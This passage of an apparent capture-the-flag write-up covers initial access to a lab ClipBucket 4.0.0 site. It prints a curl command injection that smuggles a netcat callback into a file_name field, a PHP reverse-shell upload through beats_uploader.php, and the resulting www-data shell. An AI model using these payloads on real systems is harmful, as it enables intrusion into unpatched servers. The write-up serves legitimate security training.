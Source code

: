 I looked around the site to see if I could find any glaring vulnerabilities. I tried to create an account, but it failed. 

Eventually, I looked on Exploit Database and found [multiple vulnerabilities](https://www.exploit-db.com/exploits/44250). The vulnerability works for version of ClipBucket that are smaller than '4.0.0 - Release 4902'. The source of the site say it's version 4.0.0, but does not say which release. So I tried the exploit on it. 

I first tried the command injection. 
```bash

$ curl -H "Authorization: Basic CREDENTIALS" -F "Filedata=@pfile.png" -F "file_name=aa.php ||nc 10.13.3.36 4444" http://broadcast.vulnnet.thm/api/file_uploader.php

{"success":"yes","file_name":"aa.php ||nc 10.13.3.36 4444"}
```
It returns a success, but I couldn't get the command to work. It never connected to my netcat listener.

After that, I tried the file upload vulnerability to push a PHP reverse shell.

```bash
curl -H "Authorization: Basic CREDENTIALS" -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"

{"success":"yes","file_name":"162298400499316a","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```

Again, I got a success, but I had no idea where the `CB_BEATS_UPLOAD_DIR` folder was. 

I searched on the site and couldn't find it. Then by searching on DuckDuckGo, I found the documentation to the [metasploit module](https://github.com/iagox86/metasploit-framework-webexec/blob/master/documentation/modules/exploit/multi/http/clipbucket_fileupload_exec.md) that showed that it was under `/actions/`. 

I started netcat listener and naviaged to [http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/162298400499316a.php](http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/162298400499316a.php) and I got my shell on the machine.

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.186.11 51072
Linux vulnnet 4.15.0-134-generic #138-Ubuntu SMP Fri Jan 15 10:52:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 14:56:00 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Escalate To server-management
